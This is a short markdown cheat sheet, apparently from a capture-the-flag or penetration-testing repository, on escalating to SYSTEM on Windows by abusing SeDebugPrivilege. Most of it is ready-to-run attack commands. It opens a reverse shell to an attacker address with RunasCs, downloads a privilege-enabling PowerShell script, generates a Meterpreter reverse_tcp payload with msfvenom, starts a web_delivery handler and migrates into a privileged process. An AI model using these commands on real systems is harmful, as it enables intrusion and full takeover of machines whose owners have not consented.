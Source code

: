 # SeDebug Privileges 
We can Enable the Debug Privillges and get the Root in the Box

# Steps
1. Get a Stable Shell
2. Enable the SeDebug
3. Migrate the process with c2 or Metasploit

# Get a stable shell
```language 
.\RunasCs.exe username password  cmd -r attacker_ip:port
```
# Enbale the SeDebug Privillges
```language
wget https://github.com/reigningshells/PowerShell-Scripts/blob/master/Enable-Privilege.ps1
upload to the runascs shell

Enable-Privilege -Privilege SeDebugPrivilege
whoami /priv     #know it enables
```
# Migrate it using the Metasploit
```language
# Generate Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=<IP> LPORT=1337 -f exe -o reverse.exe

# Start a metasploit
  msfconsole -q -x "use exploit/multi/script/web_delivery; \
  set payload windows/x64/meterpreter/reverse_tcp; \
  set LHOST tun0; \
  set LPORT 1337; \
  set target 2; \
  exploit -j"
```
# Find the Any Root Process ID like vmware or somethink
```langauge
migrate <PID>  # grab the vm ware tool PID Number and run it

we are know system admin in the Box
```
